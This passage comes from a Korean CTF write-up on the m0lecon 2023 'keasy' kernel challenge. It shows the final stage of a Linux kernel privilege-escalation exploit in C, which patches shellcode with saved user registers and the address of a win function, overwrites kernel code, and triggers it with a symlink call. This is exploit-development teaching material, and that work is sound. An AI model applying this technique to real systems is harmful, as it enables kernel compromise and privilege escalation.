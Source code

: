 ```c
// 실제 값으로 수정
p = memmem(shellcode, sizeof(shellcode), "\x11\x11\x11\x11\x11\x11\x11\x11", 8);
*(size_t*)p = getpid();
p = memmem(shellcode, sizeof(shellcode), "\x22\x22\x22\x22\x22\x22\x22\x22", 8);
*(size_t*)p = (size_t)&win;
p = memmem(shellcode, sizeof(shellcode), "\x33\x33\x33\x33\x33\x33\x33\x33", 8);
*(size_t*)p = user_cs;
p = memmem(shellcode, sizeof(shellcode), "\x44\x44\x44\x44\x44\x44\x44\x44", 8);
*(size_t*)p = user_rflags;
p = memmem(shellcode, sizeof(shellcode), "\x55\x55\x55\x55\x55\x55\x55\x55", 8);
*(size_t*)p = user_rsp;
p = memmem(shellcode, sizeof(shellcode), "\x66\x66\x66\x66\x66\x66\x66\x66", 8);
*(size_t*)p = user_ss;

// 덮기
memcpy(affected_addr + (phys_func & 0xfff), shellcode, sizeof(shellcode));
puts("[+] GO!GO!");

// 여기서 symlink를 호출하며 넣어둔 shellcode로 실행 흐름이 넘어감
fflush(stdout);
printf("%d\n", symlink("a", "a"));
puts("[-] Failed...");
close(fd);
getchar();
return 0;
```

전체 exploit 코드는 다음과 같다.

<details><summary>펼치기/접기</summary></details>

실행하면 `/dev/sda`에 쓰여진 값이 잘 출력된 것을 볼 수 있다. 

<center>
    <img src="/assets/images/posts_img/writeups/m0lecon-2023-keasy/win.png" alt="win.png">
</center>

# 참고사항

## 디버깅하며 메모리 살펴보기


[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.